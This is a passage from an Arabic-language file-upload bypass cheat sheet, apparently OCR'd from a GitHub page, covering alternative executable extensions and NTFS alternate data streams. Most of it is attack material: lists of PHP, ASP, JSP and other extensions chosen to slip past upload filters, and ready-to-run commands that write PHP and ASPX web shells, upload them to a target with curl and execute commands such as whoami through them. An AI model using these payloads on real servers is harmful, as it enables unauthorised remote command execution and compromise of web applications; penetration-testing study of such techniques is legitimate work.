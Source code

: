 ### 7. الامتدادات القابلة للتنفيذ البديلة (Alternative Executable Extensions)
**شرح**: استخدام امتدادات قابلة للتنفيذ أقل شهرة (مثل `.phtml` أو `.asp`) قد لا تكون محظورة بواسطة الفلاتر.
**كيف يعمل**: الخادم قد يُنفذ هذه الامتدادات إذا كان مُهيأ لدعمها (مثل PHP أو ASP).
**متى يُستخدم؟**: عندما تحظر الفلاتر الامتدادات الشائعة فقط (مثل `.php`).
**المحاولات**:
- **PHP**: `.php3`, `.php4`, `.php5`, `.php7`, `.pht`, `.phps`, `.phar`, `.phpt`, `.pgif`, `.phtml`, `.phtm`, `.inc`
- **ASP**: `.asp`, `.aspx`, `.config`, `.cer`, `.asa`, `shell.aspx;1.jpg`, `shell.soap`
- **JSP**: `.jsp`, `.jspx`, `.jsw`, `.jsv`, `.jspf`, `.wss`, `.do`, `.actions`
- **Perl**: `.pl`, `.pm`, `.cgi`, `.lib`
- **ColdFusion**: `.cfm`, `.cfml`, `.cfc`, `.dbm`
- **Node.js**: `.js`, `.json`, `.node`
**الأوامر**:
```bash
echo '<?php system($_GET["cmd"]); ?>' > shell.phtml
curl -X POST -F "file=@shell.phtml" http://<target>/upload
curl 'http://<target>/Uploads/shell.phtml?cmd=whoami'
```
```bash
echo '<% Response.Write(CreateObject("WScript.Shell").Exec("cmd /c whoami").StdOut.ReadAll()) %>' > shell.aspx
curl -X POST -F "file=@shell.aspx" http://<target>/upload
curl 'http://<target>/Uploads/shell.aspx'
```

### 8. تدفقات البيانات البديلة في NTFS (NTFS Alternate Data Streams - ADS)
**شرح**: استخدام تدفقات البيانات البديلة في Windows (مثل `shell.php:.jpg`) لإخفاء محتوى خبيث في ملف بامتداد مسموح.
**كيف يعمل**: الخادم قد ينشئ ملفًا فارغًا بالامتداد الخبيث (مثل `shell.php`)، يمكن استغلاله لاحقًا.
**متى يُستخدم؟**: على خوادم Windows مع نظام ملفات NTFS.
**المحاولات**:
- `shell.php:.jpg`
- `shell.asp::$data.jpg`
**الأوامر**:
```bash
echo '<?php system($_GET["cmd"]); ?>' > shell.php:.jpg
curl -X POST -F "file=@shell.php:.jpg" http://<target>/upload
curl 'http://<target>/Uploads/shell.php?cmd=whoami'
```

---

## ملخص جميع الأوامر لكل تقنية

1. **الامتدادات المزدوجة**:
   ```bash
   echo '<?php system($_GET["cmd"]); ?>' > shell.jpg.php
   curl -X POST -F "file=@shell.jpg.php" http://<target>/upload
   curl 'http://<target>/Uploads/shell.jpg.php?cmd=whoami'
   ```
